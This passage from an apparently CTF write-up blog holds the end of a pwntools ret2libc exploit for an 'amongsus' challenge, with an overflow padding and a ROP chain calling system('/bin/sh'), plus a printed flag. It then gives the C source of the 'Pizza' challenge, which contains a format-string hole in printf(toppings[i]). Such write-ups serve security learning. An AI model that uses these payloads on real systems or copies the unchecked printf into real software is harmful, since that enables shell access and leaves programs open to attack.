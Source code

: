 log.info(f"System : {hex(system)}")
log.info(f"Binsh : {hex(binsh)}")

payload = b"A" * 72
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

p.sendlineafter(b"sus?\n", payload)

p.interactive()
{% endhighlight %}

> Flag : lactf{amongsus_aek7d2hqhgj29v21}

## Pwn/Pizza

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/f02ed5bf-381d-4393-8e66-56cd0d949531)

### Source Code

{% highlight c %}
#include <stdio.h>
#include <string.h>

const char *available_toppings[] = {"pepperoni",  "cheese",     "olives",
                                    "pineapple",  "apple",      "banana",
                                    "grapefruit", "kubernetes", "pesto",
                                    "salmon",     "chopsticks", "golf balls"};
const int num_available_toppings =
    sizeof(available_toppings) / sizeof(available_toppings[0]);

int main(void) {
  setbuf(stdout, NULL);
  printf("Welcome to kaiphait's pizza shop!\n");
  while (1) {
    printf("Which toppings would you like on your pizza?\n");
    for (int i = 0; i < num_available_toppings; ++i) {
      printf("%d. %s\n", i, available_toppings[i]);
    }
    printf("%d. custom\n", num_available_toppings);
    char toppings[3][100];
    for (int i = 0; i < 3; ++i) {
      printf("> ");
      int choice;
      scanf("%d", &choice);
      if (choice < 0 || choice > num_available_toppings) {
        printf("Invalid topping");
        return 1;
      }
      if (choice == num_available_toppings) {
        printf("Enter custom topping: ");
        scanf(" %99[^\n]", toppings[i]);
      } else {
        strcpy(toppings[i], available_toppings[choice]);
      }
    }
    printf("Here are the toppings that you chose:\n");
    for (int i = 0; i < 3; ++i) {
      printf(toppings[i]);
      printf("\n");
    }
    printf("Your pizza will be ready soon.\n");
    printf("Order another pizza? (y/n): ");
    char c;